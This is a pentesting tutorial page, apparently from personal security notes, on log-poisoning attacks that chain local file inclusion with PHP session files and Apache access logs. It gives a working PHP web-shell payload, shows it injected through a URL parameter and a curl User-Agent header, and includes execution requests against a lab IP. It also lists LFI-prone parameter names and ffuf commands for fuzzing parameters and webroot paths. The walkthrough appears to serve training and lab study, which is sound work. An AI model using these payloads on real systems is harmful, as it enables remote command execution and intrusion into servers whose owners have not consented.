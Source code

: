 ```yaml
---
title: Log poisoning attack - File inclusion
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - web
  - pentesting
---
```

# Log poisoning attack - File inclusion


This attack relies on:

- Writing PHP code in a field we control that gets logged into a log file (i.e. `poison`/`contaminate` the log file)
- Reading via Local File Inclusion that log file to execute the PHP code.

If any of the following functions has `Execute` privileges, then the app is vulnerable to this attack:

| **Function**                 | **Read Content** | **Execute** | **Remote URL** |
| ---------------------------- | :--------------: | :---------: | :------------: |
| **PHP**                      |                  |             |                |
| `include()`/`include_once()` |        ✅         |      ✅      |       ✅        |
| `require()`/`require_once()` |        ✅         |      ✅      |       ❌        |
| **NodeJS**                   |                  |             |                |
| `res.render()`               |        ✅         |      ✅      |       ❌        |
| **Java**                     |                  |             |                |
| `import`                     |        ✅         |      ✅      |       ✅        |
| **.NET**                     |                  |             |                |
| `include`                    |        ✅         |      ✅      |       ✅        |

##  Session poisoning

**1.** Reading the log. I we have the following PHPSession cookie:

```
Cookie: PHPSession=nhhv8i0o6ua4g88bkdl9u1fdsd
```

Then, its location on disk would be:

```
# Linux
/var/lib/php/sessions/sess_el4ukv0kqbvoirg7nkp4dncpk3

# Windows
C:\Windows\Temp\sessions\sess_el4ukv0kqbvoirg7nkp4dncpk3
C:\Windows\Temp\sess_el4ukv0kqbvoirg7nkp4dncpk3
```

Now, from the endpoint vulnerable to LFI, we can read the log for our session:

```
http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd

# My example:
http://94.237.54.42:37338/index.php?language=/var/lib/php/sessions/sess_giiat46h4vo3robfrnoet7neqf
```

Screenshot:

![Read session](../img/log-poisoning_00.png)


We can write the logs with the language parameter. 

**2.** Write the logs with the following malicious payload:

```
http://<SERVER_IP>:<PORT>/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E
```

whereas the payload is url encoded:

```
<?phpsystem($_GET["cmd"]);?>
```

**3.** Execute the shell:

```
http://94.237.54.42:37338/index.php?language=/var/lib/php/sessions/sess_giiat46h4vo3robfrnoet7neqf&cmd=ls
```

![](../img/log-poisoning_01.png)

Executing the shell requires writing the shell into the log every time (step 2).

## Server Log Poisoning

Apache maintains various logs files under `var/log/apache2/` on Linux and `C:\xampp\apache\logs\` on Windows:

- `access.log`
- `error.log`

Nginx logs are located in `/var/log/nginx/` on Linux and in `C:\nginx\log\` on Windows.

**The attack:**

**1.** As we have located a LFI vulnerability, we can read the `access.log` file:

```
http://94.237.54.42:37338/index.php?language=/var/log/apache2/access.log
```

The log contains the remote IP address, request page, response code, and the User-Agent header.


**2.** The User-Agent header is controlled by us through the HTTP request headers, so we should be able to poison this value. We can do it with Burpsuite or via curl:

```shell-session
curl -s "http://94.237.54.42:37338/index.php" -A "<?php system($_GET['cmd']); ?>"
```

**3**. Executing the payload:

```
GET /index.php?language=/var/log/apache2/access.log&cmd=ls+/ HTTP/1.1
Host: 94.237.54.42:37338
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Cookie: uid=96; PHPSESSID=giiat46h4vo3robfrnoet7neqf
Upgrade-Insecure-Requests: 1

```


## Interesting files, parameters and servers

### Files

!!! quotes "Enumerating interesting files"
	- [Interesting Windows files](https://raw.githubusercontent.com/amandaguglieri/dictionaries/main/windows/interesting-files.md)
	- [Interesting Linux files](https://raw.githubusercontent.com/amandaguglieri/dictionaries/main/Linux/interesting-files.md)
	- [Complete dictionary with both Linux and Windows files: https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI)


### Parameters

There are specific lists for parameters, as sometimes there might exists a parameter not visible in the application:

```shell-session
ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?FUZZ=value' -fs 2309
```


This is a list of some typical parameters vulnerable to LFI:

```
?cat={payload}
?dir={payload}
?action={payload}
?board={payload}
?date={payload}
?detail={payload}
?file={payload}
?download={payload}
?path={payload}
?folder={payload}
?prefix={payload}
?include={payload}
?page={payload}
?inc={payload}
?locate={payload}
?show={payload}
?doc={payload}
?site={payload}
?type={payload}
?view={payload}
?content={payload}
?document={payload}
?layout={payload}
?mod={payload}
?conf={payload}
```

Using ffuf to test vulnerable parameters:

```shell-session
ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=FUZZ' -fs 2287


ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://94.237.54.231:47114/index.php?language=FUZZ' -fs 2287
```


### Server webroot path, server configurations file, and server logs


- /usr/share/seclists/Discovery/Web-Content/default-web-root-directory-linux.txt

```
var/www/html/
var/www/
var/www/sites/
var/www/public/
var/www/public_html/
var/www/html/default/
srv/www/
srv/www/html/
srv/www/sites/
home/www/
home/httpd/
home/$USER/public_html/
home/$USER/www/
```

- /usr/share/seclists/Discovery/Web-Content/default-web-root-directory-windows.txt

```
c:\inetpub\wwwroot\
c:\xampp\htdocs\
c:\wamp\www
```


Using ffuf to locate the root server:

```shell-session
ffuf -w /usr/share/seclists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ/index.php' -fs 2287
```


